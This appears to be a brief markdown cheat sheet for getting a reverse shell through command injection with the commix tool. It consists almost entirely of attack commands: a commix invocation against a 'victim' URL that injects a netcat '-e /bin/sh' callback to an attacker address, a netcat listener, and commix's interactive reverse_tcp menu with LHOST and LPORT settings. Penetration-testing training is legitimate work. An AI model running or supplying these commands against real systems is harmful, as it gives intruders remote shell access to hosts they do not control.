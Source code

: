Commix Reverse Shell
====================

READ THIS LINK!!
https://github.com/commixproject/commix/wiki/Reverse-Shells

Load from saved file (contains cookies, tokens, etc
---------------------------------------------------
```bash
commix -r /must/use/full/path/to/file.txt
```
Technique 1
-----------
```bash
commix -u 'http://victim.ip.address/commandexec/example1.php?ip=127.0.0.1' --os-cmd="/bin/nc.traditional -e /bin/sh attacker.ip.adddress 1234"
```
Technique 2
-----------
On Attacker
-------------
````bash
nc -lvp 1234
````

On Victim
------------
```bash
os_shell
commix(os_shell)
reverse_tcp
set LHOST attackers.ip.address
set LPORT 1234

---[ Reverse TCP shells ]---     
Type '1' to use a netcat reverse TCP shell.
Type '2' for other reverse TCP shells.

1

---[ Unix-like targets ]--- 
Type '1' to use the default Netcat on target host.
Type '2' to use Netcat for Busybox on target host.
Type '3' to use Netcat-Traditional on target host. 
Type '4' to use Netcat-Openbsd on target host. 

3
```
